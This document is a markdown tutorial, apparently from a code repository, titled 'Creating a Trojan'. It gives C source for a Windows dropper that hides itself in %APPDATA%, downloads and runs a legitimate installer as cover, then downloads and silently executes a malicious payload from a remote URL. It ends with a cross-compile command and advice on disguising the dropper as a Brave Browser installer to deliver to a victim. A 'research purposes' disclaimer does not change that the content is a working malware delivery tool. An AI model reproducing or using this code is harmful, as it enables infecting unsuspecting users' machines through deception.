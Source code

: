 # Creating a Trojan

## DISCLAIMER: This project was made for research purposes. Anything you do with this code is on you and is not my responsibility.

The main basis of this article will be to bundle a legitimate application with a malicious one. Here are the steps we will go through:
1. Code a dropper that will drop both the legitimate application & the malicious one. 
2. The dropper will then copy itself to another directory to hide it & then the dropped malicious application will overwrite & delete the dropper.

Let's start with defining the needed parameters for this function:

* legitimate_app  -> this is our legitimate application's file name to drop on the victim's machine
* legitimate_app_URL -> this is our legitimate application's URL to download it from
* malware_URL -> this is our malicious application's URL to download it from
* malware_app -> this is our malicious application's file name to drop on the victim's machine
* dropper_new_name -> this is the new name of our dropper. At first, our dropper will be masked to look like the legitimate application, but when it's executed, it will download the legitimate application & replace the dropper. This means we will have to move our dropper to a new location and give it a new name


Now, let's defining some variables we will be using when downloading & grabbing the legitimate application:

`
TCHAR current_dir[MAX_PATH]
TCHAR current_file[MAX_PATH]
TCHAR new_dir[MAX_PATH]
`
* current_dir will be used to grab the current directory & append the legitimate_app string to the end of it to build the location to drop the legitimate piece of software.
* current_file will store the current directory & name of the dropper. This will be the first parameter of the **MoveFileA** function
* new_dir will be used to build the location where the dropper will be moved to. This will be the 2nd parameter of the **MoveFileA** function

`
GetCurrentDirectory(MAX_PATH, current_dir);
strcat_s(current_dir, strlen(current_dir)+strlen(legitimate_app)+1, legitimate_app);

GetModuleFileNameA(NULL, current_file, MAX_PATH);
GetEnvironmentVariable("APPDATA", new_dir, MAX_PATH);
strcat_s(new_dir, strlen(new_dir)+strlen(dropper_new_name)+1,dropper_new_name);
int mresult = MoveFileA(current_file, new_dir);
`

1. This will store the current directory in current_dir 
2. This will concatenate the legitimate_app variable (the legitimate application's filename) to the current_dir variable
3. This will get the full path of the current running process & store it in current_file
4. This will grab the path of the environment variable "APPDATA" & store it in new_dir
5. the dropper's new file name is then concatenated to the new_dir variable
6. Then we move the dropper to the new directory which is %APPDATA% & rename it to whatever dropper_new_name is set to

`
HRESULT filedl = URLDownloadToFile(NULL, legitimate_app_URL, current_dir, 0, NULL);
if (filedl == S_OK) {
    HINSTANCE result = ShellExecuteA(NULL, "open", current_dir, NULL, NULL, 0);
}
else {
		printf("[!] Error with download\n");
}
`

Here we are simply downloading the legitimate application from the legitimate_app_URL variable & saving it to wherever current_dir points to. If the download is successful, we execute the legitimate software.

Now onto the next part of the code, downloading the malware & executing it.

The only variable we define here is:
`TCHAR maldir[MAX_PATH];`
which will be used to store the full directory of the malware being dropped.

`
GetEnvironmentVariable("APPDATA", maldir, MAX_PATH);
strcat_s(maldir, strlen(maldir)+strlen(malware_app)+1, malware_app);
`
1. Grabbing environment variable of APPDATA & storing it in maldir
2. Appending the desired file name of the malware that gets dropped to the maldir variable, creating a full path

`
HRESULT maldl = URLDownloadToFile(NULL, malware_URL, maldir, 0, NULL);
if (maldl == S_OK) {
    printf("[+] Successfully downloaded main malware\n");
    HINSTANCE result2 = ShellExecuteA(NULL, "open", maldir, NULL, NULL, 0);
    exit(0);
}
else {
    printf("[!] Error downloading main malware\n");
}
`
This is a repeat of earlier code, we're simply downloading the malware from the URL stored in malware_URL & saving it to the path stored in maldir. If the download succeeds, we execute it & then exit the dropper.

## Cross-Compilation
    `x86_64-w64-mingw32-gcc input.c -o output.exe -lurlmon`

Before delivering your dropper to your victim, be sure to rename it to the legitimate application's name. For example, if you were to have it masquerade as a Brave Browser installer, name the dropper file BraveBrowserSetUp.exe & change the icon of it to match the original.
